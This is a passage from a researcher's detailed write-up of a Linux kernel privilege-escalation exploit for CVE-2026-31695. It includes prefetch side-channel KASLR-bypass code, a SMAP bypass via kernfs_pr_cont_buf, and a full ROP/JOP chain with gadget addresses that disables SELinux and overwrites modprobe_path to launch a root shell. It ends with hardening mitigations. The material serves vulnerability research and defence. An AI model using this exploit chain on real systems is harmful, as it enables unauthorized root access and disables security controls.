To bypass KASLR, I decided to use the Prefetch Side-Channel Attack, which is popular among [kernelCTF](https://google.github.io/security-research/kernelctf/rules.html) participants. They usually copy the same KASLR bypassing code from each other (see the [example implementation](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-41009_lts_cos/exploit/lts-6.6.32/exploit.c)), but I wanted to dig into it.

The main idea of this attack is simple: the `prefetch` instruction leaks timing information on the exact translation level for every virtual address. In other words, an unprivileged userspace process can detect the execution time difference for `prefetch` on valid and invalid addresses in kernelspace (see [the paper](https://gruss.cc/files/prefetch.pdf) by the team from Graz University of Technology).

On Intel CPUs, the `prefetch` instruction for a valid kernelspace address works faster than for an invalid address. So the kernelCTF implementations do the following in a loop:
 - Measure the `prefetch` execution time for consecutive kernelspace addresses starting from `0xffffffff81000000`;
 - Save the address with minimal `prefetch` execution time.

After this loop, the kernelCTF implementations use the [Boyer-Moore majority vote algorithm](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_majority_vote_algorithm) to choose the kernel address that was saved in the majority of loop iterations.

My experiments showed that the [example implementation](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2024-41009_lts_cos/exploit/lts-6.6.32/exploit.c) of the `prefetch` attack from kernelCTF turned out to be very unstable. I delved into it and found two bugs that kernelCTF players copy from each other.

I tested it in a QEMU/KVM virtual machine with `-cpu host` on a system with an Intel Comet Lake CPU (10th Generation of Intel Core i7 Processors). The kernelCTF `prefetch` attack often chose some other address inside kernelspace instead of `_text`. The debug output looked like this:

```
root@localhost:~# cat /proc/kallsyms |grep " _text"
ffffffff9c600000 T _text
root@localhost:~# exit
logout
user@localhost:~$ ./pm
[!] pm uaf exploit v0.9
Boyer-Moore majority vote algorithm
  Measure the time:
    vote 0
      addr 0xffffffff81200000 (1) new min time 97
      addr 0xffffffff9c600000 (219) new min time 64
      addr 0xffffffff9de00000 (231) new min time 61
      addr 0xffffffff9e800000 (236) new min time 59
    vote 0 is for 0xffffffff9e800000 (236)
    vote 1
      addr 0xffffffff81400000 (2) new min time 98
      addr 0xffffffff81600000 (3) new min time 97
      addr 0xffffffff9c600000 (219) new min time 61
      addr 0xffffffff9de00000 (231) new min time 59
    vote 1 is for 0xffffffff9de00000 (231)
...
```

Here you can see that some addresses inside the kernel showed a faster `prefetch` execution time compared to `_text` at `0xffffffff9c600000`. That makes the algorithm save wrong addresses for later voting.

The following diagram shows another example of such a mistake:

<center></center><br>

To fix that issue, I added a simple break condition, which made the `prefetch` side channel attack absolutely stable on an Intel Comet Lake CPU:

```diff
        size_t minv = times[0];
        size_t mini = 0;
        for (unsigned long ti = 0; ti < ARRAY_LEN(times) - 1; ti++) {
                if (times[ti] < minv) {
                        mini = ti;
+                       if (times[ti] < minv * 90 / 100)
+                               break; /* Stop on the first address having more than 10% faster access */
                        minv = times[ti];
                }
        }
 
        bases[vote] = addrs[mini];
```

However, there is one corner case, which can be triggered if we run this attack on a machine with disabled KASLR. The algorithm begins scanning the kernelspace addresses from `0xffffffff81000000`. That is the exact address of the kernel `_text` if KASLR is off. Therefore, we should start scanning at some lower address (for example, `0xffffffff80000000`) to allow the algorithm to detect a faster `prefetch` execution at `0xffffffff81000000`.

Then, when I learned the [Boyer-Moore majority vote algorithm](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_majority_vote_algorithm), I found the second implementation mistake that was copied in many kernelCTF solutions.

The Boyer-Moore majority vote algorithm finds an element that occurs in more than half of the input sequence.

 1. The algorithm prepares local variables for storing a winner element and its counter, which is initially zero.
 2. Then it processes the elements of the sequence, one at a time. When processing an element `x`:
   - If the counter is zero, the algorithm stores `x` as its remembered sequence element and sets the counter to 1.
   - Otherwise, the algorithm compares `x` to the stored element and either increments the counter (if they are equal) or decrements the counter (otherwise).
 3. Finally, if the sequence has a majority element, it will be the winner element stored by the algorithm.

Quoting the [pseudocode](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_majority_vote_algorithm) from Wikipedia:

<center></center><br>

However, many kernelCTF implementations of this algorithm miss setting the counter to 1. My fix:

```diff
                int c = 0;
                for (unsigned long i = 0; i < ARRAY_LEN(bases); i++) {
                        if (c == 0) {
                                base = bases[i];
+                               c = 1;
                        } else if (base == bases[i]) {
                                c++;
                        } else {
                                c--;
                        }
                }
```

Without this fix, the algorithm is completely broken -- the counter `c` is always zero 😄.

There is one more improvement for the kernelCTF implementations of the `prefetch` side channel attack: the Linux kernel in all modern GNU/Linux distributions has `CONFIG_PHYSICAL_ALIGN=0x200000`, so the `STEP` for testing consecutive kernelspace addresses should be `0x200000` instead of `0x1000000`.

## Bypassing SMEP and SMAP

To bypass SMEP, I needed to construct a ROP-chain and perform kernel stack pivoting onto it. However, to bypass SMAP, I needed two things:

 1. I needed to place the ROP-chain at a known kernelspace location. I knew how to achieve that: `rpm_callback()`, which provided the control flow hijacking primitive, had the address of my fake `struct device` as the first argument, so I could place my ROP-chain inside `struct device` and get its address from the RDI register to perform stack pivoting.

 2. I needed to put my fake `dev_pm_domain` at some known kernelspace location instead of userspace. That was a more difficult task.

As I mentioned, `struct dev_pm_domain` contains `struct dev_pm_ops` with the function pointer `int (*runtime_resume)(struct device *)`, which I used for control flow hijacking. In other words, I needed to place eight bytes of the `runtime_resume` address at some known location in kernelspace. To achieve that, I chose a well-known exploitation technique populating the `kernfs_pr_cont_buf` (for more info, see [the slides](https://u1f383.github.io/slides/talks/2025_HITCON-Compromising_Linux_the_Right_Way_0days_Novel_Techniques_and_Lessons_from_Failure.pdf) by [Pumpkin](https://u1f383.github.io/about/)).

The `kernfs_pr_cont_buf` kernel global variable is defined in [`fs/kernfs/dir.c`](https://elixir.bootlin.com/linux/v6.19.11/source/fs/kernfs/dir.c#L28):

```c
static char kernfs_pr_cont_buf[PATH_MAX];	/* protected by pr_cont_lock */
```

`PATH_MAX` is 4096, so I had enough space for my function pointer. Writing data to this kernel buffer is simple:

```
root@localhost:~# iptables -A OUTPUT -m cgroup --path "a5a5" -j LOG
[   47.953727] xt_cgroup: invalid path, errno=-2
iptables v1.8.11 (nf_tables):  RULE_APPEND failed (Invalid argument): rule in chain OUTPUT
```

After this `iptables` command, `kernfs_pr_cont_buf` contains the controlled data:

```
gef> p kernfs_pr_cont_buf
$3 = "a5a5", '\000' <repeats 4091 times>
```

Since I had obtained the KASLR offset, calculating the kernelspace address of `kernfs_pr_cont_buf` was trivial. However, I encountered another unexpected obstacle on Fedora Server. When I implemented the described `iptables` command in C using `setsockopt()` with `IPT_SO_SET_REPLACE`, I found out that Fedora didn't automatically load the kernel modules needed for `iptables` commands 😖.

I was fighting with that limitation for some time and finally found a solution:

> I used a new netlink interface instead of the legacy `setsockopt()` with `IPT_SO_SET_REPLACE`, and Fedora Server allowed me to populate `kernfs_pr_cont_buf` with my fake `runtime_resume` function pointer!

For simplicity, I just used `xtables-nft-multi`:

```c
execl("/usr/bin/xtables-nft-multi", "iptables", "-A", "OUTPUT", "-m", "cgroup", "--path", addr, (char *)NULL);
```

Then I adapted my `setup_fake_netdevice()` to prepare the payload for kernel heap spraying:

```c
#define KERNFS_PR_CONT_BUF_PTR (0xffffffff84b25480UL + kaslr_offset)

long_val = (unsigned long *)(buf + OFFSET__NET_DEVICE__PM_DOMAIN);
*long_val = KERNFS_PR_CONT_BUF_PTR - OFFSET__DEV_PM_DOMAIN__RUNTIME_RESUME; /* for control flow hijack */
```

So my payload for kernel heap spraying looked like this:

<center></center><br>

## ROP/JOP-chain

Building a ROP-chain was the final part of exploiting this complicated race condition. I did that with special pleasure. The ROP-chain performed three tasks:

 1. Disabling SELinux;

 2. Overwriting `modprobe_path`;

 3. Creating an empty linked list in `device.power.wait_queue.head` to avoid NULL pointer dereference.

Just before the control flow hijack in `rpm_callback()`, the CPU registers have the following state:

```
$rax: 0x0000000000000000
$rbx: 0xffff88810e5405b0    -- the address of the struct device
$rcx: 0x0000000000000017
$rdx: 0x0000000000000000
$rsp: 0xffffc900061ff670  ->  0xffffffff82102027 <__rpm_callback+0x57>
$rbp: 0xffffffff8227e305
$rsi: 0xffff88810e5405b0    -- the address of the struct device
$rdi: 0xffff88810e5405b0    -- the address of the struct device
$rip: 0xffffffff8227e305
$r8 : 0xffffffff84c03040
$r9 : 0x00000000bcca622b
$r10: 0x0000000000000004
$r11: 0x0000000000000001
$r12: 0xffff88810e540694
$r13: 0xffffffff8227e305
$r14: 0x0000000000000000
$r15: 0x0000000000000000
$fs_base: 0x00007f82334a56c0
$gs_base: 0xffff8881b73e6000
```

Here the `struct device` address `0xffff88810e5405b0` is stored not only in the RDI register, but also in RSI and RBX. So these three registers contain the address of the kernel memory with data controlled by an attacker. That is good for exploitation.

However, the CPU registers contain only one pointer from the kernel stack: `0xffffc900061ff670` in RSP. That's really bad: if I performed stack pivoting, switching the kernel stack onto controlled data, the RSP register would be clobbered. In that case, I would not be able to restore its original value, and the Linux kernel would not be able to continue the system call handling after my ROP chain.

<center></center><br>

I managed to overcome this limitation by employing jump-oriented programming (JOP), somewhat similar to my research [Improving the exploit for CVE-2021-26708 in the Linux kernel to bypass LKRG](https://a13xp0p0v.tech/2021/08/25/lkrg-bypass.html). First of all, I used the JOP-gadget `push rsp ; jmp qword ptr [rsi - 0x70]` as `runtime_resume()`:

```c
/* push rsp ; jmp qword ptr [rsi - 0x70] */
#define PUSH_RSP_JMP_QWORD_PTR_RSI_MINUS_0X70 (0xffffffff81d1e471UL + kaslr_offset)

*addr = PUSH_RSP_JMP_QWORD_PTR_RSI_MINUS_0X70;
execl("/usr/bin/xtables-nft-multi", "iptables", "-A", "OUTPUT", "-m", "cgroup", "--path", addr, (char *)NULL);
```

That first gadget pushes the RSP value to the kernel stack and jumps to the second JOP-gadget placed at the address in RSI minus 0x70. As I mentioned, RSI contains the pointer to my fake `struct device`. Therefore, I carefully prepare the second JOP-gadget inside `struct net_device`, which contains my `struct device`:

```c
void prepare_jop_rop_chain(char *buf)
{
	unsigned long *gadget = NULL;

#define JOP_GADGET2_OFFSET (OFFSET__NET_DEVICE__DEV - 0x70)
#define POP_RBP_JMP_QWORD_PTR_RSI_MINUS_0X7F (0xffffffff81c7b9b2UL + kaslr_offset)
                                                               /* pop rbp ; jmp qword ptr [rsi - 0x7f] */

	gadget = (unsigned long *)(buf + JOP_GADGET2_OFFSET);
	*gadget = POP_RBP_JMP_QWORD_PTR_RSI_MINUS_0X7F;
```

This second JOP-gadget pops 8 bytes from the kernel stack into RBP. That's how I saved the original RSP value in RBP for restoring it at the end of the ROP-chain. Excellent, now everything is ready for stack pivoting: this second JOP-gadget jumps to the address in RSI minus 0x7f, where I prepared the stack-pivoting ROP-gadget:

```c
#define STACK_PIVOT_OFFSET (OFFSET__NET_DEVICE__DEV - 0x7f)
#define PUSH_RSI_POP_RSP (0xffffffff8227e305UL + kaslr_offset) /* push rsi ; pop rsp ; jmp 0x172b4a0 (ret) */

	gadget = (unsigned long *)(buf + STACK_PIVOT_OFFSET);
	*gadget = PUSH_RSI_POP_RSP;
```

This ROP-gadget simply switches the kernel stack to the address of my fake `struct device`. But I don't want to place a whole ROP-chain there to avoid possible problems when the kernel works with this device. So I create a nice ROP trampoline at the beginning of my `struct device`:

```c
#define POP_RSI (0xffffffff81a7f03eUL + kaslr_offset) /* pop rsi ; ret 0 */
#define ROP2_OFFSET 1024
#define ADD_RSI_RDI_ETC (0xffffffff826d68dcUL + kaslr_offset) /* add rsi, rdi ; add rax, rsi ; ret */

	/* ROP trampoline at the beginning of the struct device */
	gadget = (unsigned long *)(buf + OFFSET__NET_DEVICE__DEV);
	*gadget++ = POP_RSI;
	*gadget++ = ROP2_OFFSET;
	*gadget++ = ADD_RSI_RDI_ETC; /* RDI contains the address of the struct device */
	*gadget++ = PUSH_RSI_POP_RSP;
	gadget = (unsigned long *)(buf + OFFSET__NET_DEVICE__DEV + ROP2_OFFSET);
```

This trick performs the kernel stack pivoting for the second time -- RSP is changed to the address of my fake `struct device` plus 1024. It is outside `struct device`, but still inside the sprayed slab object. In that memory I place the main part disabling SELinux and overwriting `modprobe_path` with a string, which I also prepare in the sprayed data. The following diagram describes the anatomy of my ROP/JOP-chain:

<center></center><br>

In the main ROP chain at `OFFSET__NET_DEVICE__DEV + ROP2_OFFSET`, I prepare the ROP-gadgets that disable SELinux:

```c
#define SELINUX_STATE_ENFORCING_PTR (0xffffffff84b36f40UL + kaslr_offset)
#define MOV_BYTE_PTR_RSI_0 (0xffffffff81f33ea5UL + kaslr_offset) /* mov byte ptr [rsi], 0 ; ret */

	/* Disable SELinux */
	*gadget++ = POP_RSI;
	*gadget++ = SELINUX_STATE_ENFORCING_PTR;
	*gadget++ = MOV_BYTE_PTR_RSI_0;
```

These gadgets simply write one zero byte to `selinux_state.enforcing` -- and SELinux becomes disabled.

Then I prepare the ROP-chain part that overwrites `modprobe_path` with the path to my privilege escalation script:

```c
#define SIZED_STRSCPY_PTR (0xffffffff826fccd0UL + kaslr_offset)
#define MODPROBE_PATH_PTR (0xffffffff83bd7240UL + kaslr_offset)

#define NEW_MODPROBE_PATH_OFFSET 1536
#define POP_RDI (0xffffffff812059b9UL + kaslr_offset) /* pop rdi ; ret */
#define POP_RDX (0xffffffff812068b4UL + kaslr_offset) /* pop rdx ; ret */
#define POP_RAX (0xffffffff8121493aUL + kaslr_offset) /* pop rax ; ret */
#define JMP_RAX (0xffffffff812038a7UL + kaslr_offset) /* jmp rax */

	/* Prepare the string for overwriting modprobe_path */
	strncpy(buf + OFFSET__NET_DEVICE__DEV + NEW_MODPROBE_PATH_OFFSET,
		privesc_script_path,
		KMOD_PATH_LEN);

	/*
	 * Now overwrite modprobe_path.
	 * Use ssize_t sized_strscpy(char *dst, const char *src, size_t count)
	 */
	*gadget++ = POP_RSI;
	*gadget++ = NEW_MODPROBE_PATH_OFFSET;
	*gadget++ = ADD_RSI_RDI_ETC; /* prepare the 2nd argument:
					store the address of the overwriting string in RSI
					(RDI contains the address of the struct device) */
	*gadget++ = POP_RDI;
	*gadget++ = MODPROBE_PATH_PTR; /* prepare the 1st argument:
					  store the address of modprobe_path in RDI */
	*gadget++ = POP_RDX;
	*gadget++ = KMOD_PATH_LEN; /* prepare the 3rd argument:
				      store the maximum path size in RDX */
	*gadget++ = POP_RAX;
	*gadget++ = SIZED_STRSCPY_PTR;
	*gadget++ = JMP_RAX;
```

Here I copy the path to my LPE script to the memory after the main ROP-chain, at the address of my fake `struct device` plus `NEW_MODPROBE_PATH_OFFSET` (1536). Then I prepare the gadgets that call the `sized_strscpy()` kernel function. It has three arguments:

 1. `char *dest`, which should be passed to the function via RDI. My gadgets write the address of `modprobe_path` there.
 2. `const char *src`, which should be passed to the function via RSI. My gadgets calculate the kernelspace address of the LPE script path and save it to that register.
 3. `size_t count`, which should be passed to `sized_strscpy()` via RDX. My gadgets write `KMOD_PATH_LEN` (256) into this register.

After preparing the function arguments, I use the `jmp rax` gadget to execute `sized_strscpy()`, which should overwrite `modprobe_path` 💣!

Now I prepare the ROP-chain part that modifies my fake `struct device` to avoid NULL pointer dereference and survive `wake_up_all(&dev->power.wait_queue)`. As I described earlier, I need to fake an empty linked list in `device.power.wait_queue`:

```c
#define OFFSET__DEV_PM_INFO__WAIT_QUEUE 184
#define OFFSET__WAIT_QUEUE__HEAD 8
#define OFFSET__DEVICE__WQ_HEAD                                                \
  (OFFSET__DEVICE__POWER + OFFSET__DEV_PM_INFO__WAIT_QUEUE +                   \
   OFFSET__WAIT_QUEUE__HEAD)

#define ADD_RAX_RBX_POP_RBX (0xffffffff8134b8e4UL + kaslr_offset) /* add rax, rbx ; pop rbx ; ret */
#define MOV_QWORD_PTR_RAX_RAX (0xffffffff81aa1426UL + kaslr_offset) /* mov qword ptr [rax], rax ; ret */

	/*
	 * Create an empty linked list in struct device.power.wait_queue.head
	 * to avoid null ptr deref during the linked list traversal.
	 * Make the struct list_head.next pointer contain its own address.
	 */
	*gadget++ = POP_RAX;
	*gadget++ = OFFSET__DEVICE__WQ_HEAD;
	*gadget++ = ADD_RAX_RBX_POP_RBX; /* RBX contains the address of the struct device */
	*gadget++ = 0x1337; /* a dummy value for pop RBX */
	*gadget++ = MOV_QWORD_PTR_RAX_RAX;
```

That is a nice trick: I know the offset of `power.wait_queue.head` inside my fake `struct device`. My gadgets use it to calculate the kernelspace address of `device.power.wait_queue.head` and then perform `mov qword ptr [rax], rax`. That instruction should create a fake empty linked list: the updated `wait_queue.head` will contain the pointer to itself!

The job is done. Now comes the final part of the ROP-chain that restores the original value of RSP to allow the Linux kernel to happily continue handling the `ETHTOOL_MSG_FEATURES_SET` command:

```c
#define XCHG_RBP_RAX (0xffffffff81af1f54UL + kaslr_offset) /* xchg rbp, rax ; ret */
#define SUB_RAX_0X10 (0xffffffff81af8f26UL + kaslr_offset) /* sub rax, 0x10 ; ret */
#define MOV_RSP_RBP_POP_POP (0xffffffff81d4ae31UL + kaslr_offset) /* mov rsp, rbp ; pop rbp ; pop rbx ; ret */

	/* Prepare the RBP value for restoring the original RSP via MOV_RSP_RBP_POP_POP */
	*gadget++ = XCHG_RBP_RAX;
	*gadget++ = SUB_RAX_0X10;
	*gadget++ = XCHG_RBP_RAX;

	/*
	 * Restore RSP and continue syscall handling.
	 * N.B. We have a non-zero value in RAX (an address for a wait_queue list).
	 * It's OK: the runtime_resume callback should return a non-zero result.
	 */
	*gadget++ = MOV_RSP_RBP_POP_POP;
}
```

My final ROP-gadget, which should restore RSP, contains two additional `pop` instructions. To compensate them, I subtract 0x10 from RBP, which contains the original RSP value.

One additional aspect: I want the kernel to finish `ETHTOOL_MSG_FEATURES_SET` handling as soon as possible. So I keep a non-zero value in RAX, which contains the result of the `runtime_resume()` callback.

After executing the last ROP-gadget, the kernel gracefully finishes the syscall handling. Then my exploit joins all pthreads:

```c
	ret = pthread_join(th_dellink, NULL);
	if (ret != 0) {
		perror("[-] pthread_join th_dellink");
		return EXIT_FAILURE;
	}

	for (i = 0; i < TH_ETHTOOL_N; i++) {
		ret = pthread_join(th_ethtool[i], NULL);
		if (ret != 0) {
			perror("[-] pthread_join th_ethtool");
			return EXIT_FAILURE;
		}
	}

	ret = pthread_join(th_spray, NULL);
	if (ret != 0) {
		perror("[-] pthread_join th_spray");
		return EXIT_FAILURE;
	}
```

Finally, I check whether `modprobe_path` is overwritten and perform privilege escalation similarly to my [`drill_oob_w_pipe_buffer`](https://github.com/a13xp0p0v/kernel-hack-drill/blob/master/drill_oob_w_pipe_buffer.c) PoC exploit in the [`kernel-hack-drill`](https://github.com/a13xp0p0v/kernel-hack-drill) project:

```c
	ret = get_modprobe_path(new_modprobe_path);
	if (ret == EXIT_FAILURE)
		exit(EXIT_FAILURE);

	if (strncmp(new_modprobe_path, modprobe_path, KMOD_PATH_LEN)) {
		printf("[+] race round %ld: new modprobe_path %s\n", i, new_modprobe_path);
		trigger_modprobe_sock(); /* launch the root shell */
		return EXIT_SUCCESS;
	}
```

Once again, the PoC exploit demo:

<div style="position:relative;padding-top:56.25%;">
  <iframe src="https://www.youtube.com/embed/6DKF2ZfdZK0" frameborder="0" allowfullscreen
    style="position:absolute;top:0;left:0;width:100%;height:100%;"></iframe>
</div>
<br/>

## Possible exploit mitigations

In this chapter, I will describe various mechanisms that could protect your system against my CVE-2026-31695 PoC exploit.

#### ⚡️ 1. Disabling kernel module autoloading

First of all, the exploitation of CVE-2026-31695 would be impossible without kernel module autoloading. In my spare-time project [kernel-hardening-checker](https://github.com/a13xp0p0v/kernel-hardening-checker), I recommend disabling this dangerous Linux kernel feature. That would cut the attack surface of your system and protect it from many LPE exploits. However, it's not easy to do that without breaking the needed functionality 😉. There are several options:

 1. Compile the modules you need into the kernel and disable `CONFIG_MODULES`. That is not possible if you use a precompiled kernel from some GNU/Linux distribution.

 2. Use the `nomodule` kernel boot parameter. That is possible only if your kernel image contains all the needed functionality and you don't have to load any modules.

 3. Enable the `kernel.modules_disabled` sysctl parameter __after your system has booted and loaded all the needed kernel modules__.
    It's a good compromise: this sysctl parameter disables loading kernel modules until the next reboot. I've prepared a systemd unit that performs this task:
    ```shell
    $ cat /etc/systemd/system/set-modules-disabled.service
    [Unit]
    Description=Disable kernel module loading after boot
    After=multi-user.target

    [Service]
    Type=oneshot
    # Uncomment the next line if you need time for manual actions that load kernel modules
    # ExecStartPre=/bin/sleep 300
    ExecStart=/bin/sh -c 'echo 1 > /proc/sys/kernel/modules_disabled'
    RemainAfterExit=yes

    [Install]
    WantedBy=multi-user.target
    ```
    To enable this service, run the following commands and reboot:
    ```shell
    $ sudo systemctl daemon-reload
    $ sudo systemctl enable set-modules-disabled.service
    ```
    If you need some time after booting for manual actions that cause loading of kernel modules, then uncomment `ExecStartPre`. It's a nice hack 😊.
    There is another approach: if you know which kernel modules you need beforehand, you can simply call `modprobe` for them before locking `modules_disabled`.

  4. Write an empty value to the `kernel.modprobe` sysctl parameter. This is the weakest option, which only disables kernel module autoloading.
     Moreover, writing the original value `/usr/bin/modprobe` back to this sysctl parameter re-enables this dangerous feature.

**Additional positive aspect:**

> Disabling the loading of kernel modules also prevents attacks that overwrite `modprobe_path` to escalate privileges (including my PoC exploit for CVE-2026-31695).

#### ⚡️ 2. Clearing the kernel memory on freeing

The Linux kernel has multiple mechanisms that allow clearing the freed memory. The most modern one is the `init_on_free` kernel boot parameter and `CONFIG_INIT_ON_FREE_DEFAULT_ON`, which allows choosing its default value at compile time.

My project [kernel-hardening-checker](https://github.com/a13xp0p0v/kernel-hardening-checker) checks that this memory clearing is enabled:

```python
    l += [OR(CmdlineCheck('self_protection', 'kspp', 'init_on_free', '1'),
             AND(KconfigCheck('self_protection', 'kspp', 'INIT_ON_FREE_DEFAULT_ON', 'y'),
                 CmdlineCheck('-', '-', 'init_on_free', 'is not set')),
             AND(CmdlineCheck('self_protection', 'kspp', 'page_poison', '1'),
                 KconfigCheck('self_protection', 'kspp', 'PAGE_POISONING_ZERO', 'y'),
                 CmdlineCheck('self_protection', 'kspp', 'slub_debug', 'P')))]
```

For CVE-2026-31695, enabling `init_on_free` makes the Linux kernel write zeros to the freed `struct device`.

However, my experiments showed an interesting aspect:

> `init_on_free` turns a silent UAF on `struct device` into a harmless kernel `WARNING` in `kernel/workqueue.c`, and my exploit can still win the race and gain LPE 😎.

#### ⚡️ 3. Page Table Isolation (PTI)

Enabling PTI would remove some kernel addresses from the page tables for userspace. In that case, an attacker would have to adapt the Prefetch Side-Channel Attack to leak the KASLR offset (for example, by using [EntryBleed](https://www.willsroot.io/2022/12/entrybleed.html)).

#### ⚡️ 4. Improvements in the slab allocator security hardening

As I described earlier, I managed to defeat slab allocator hardening for `kmalloc-cg` by doing nothing at all. That weakness in `CONFIG_RANDOM_KMALLOC_CACHES` can be fixed, and I will try to create a patch for the upstream kernel.

There is a narrower approach: using `CONFIG_SLAB_BUCKETS` for `sk_buff.data`. That would break the easy heap spraying primitive, which I used in this exploit. There is a [patch](https://lore.kernel.org/all/20260921075820.1718334-7-kees@kernel.org/) in the LKML, which implements this idea (thanks to Kees Cook for sharing a link with me).

#### ⚡️ 5. Control Flow Integrity (CFI)

Of course, some strong CFI implementation would prevent ROP and JOP.

You can find an overview of various CFI solutions in my spare-time project [linux-kernel-defence-map](https://github.com/a13xp0p0v/linux-kernel-defence-map). This map shows the relationships between vulnerability classes, exploitation techniques, bug detection mechanisms, and defence technologies. See the part about kernel control flow hijacking:

